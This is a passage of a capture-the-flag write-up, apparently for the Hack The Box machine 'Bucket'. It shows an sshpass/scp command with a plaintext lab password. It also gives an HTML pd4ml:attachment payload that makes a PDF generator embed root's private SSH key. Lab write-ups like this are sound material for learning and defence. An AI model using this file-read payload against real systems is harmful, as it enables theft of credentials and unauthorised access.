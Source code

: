 ```
```
```
└─$ sshpass -p 'n2vM-<_K_Q:.Aa2' scp roy@10.10.10.212:/var/www/bucket-app/files/result.pdf .
```

![](./images/8.png)

- Okay, it works
  - I assume, there is a `id_rsa` in `root`'s directory and I'll try to grab it
  - We can also create a script
    - [0xdf](https://0xdf.gitlab.io/2021/04/24/htb-bucket.html#shell-as-www-data) shows that
  - I'll perform same steps as above but with different payload to grab a key
    - `<html><pd4ml:attachment src=\"/root/.ssh/id_rsa\" description=\"attachment sample\" icon=\"Paperclip\"/></html>`

![](./images/9.png)
